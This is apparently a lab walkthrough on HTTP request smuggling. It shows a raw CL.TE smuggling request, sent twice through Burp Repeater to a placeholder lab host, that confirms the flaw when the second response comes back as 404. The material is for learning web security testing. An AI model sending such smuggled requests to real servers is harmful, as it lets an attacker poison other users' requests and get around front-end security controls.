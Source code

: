 # Some cases of HTTP request smuggling

## 1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

The second request should receive an HTTP 404 response.

*Note

Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.
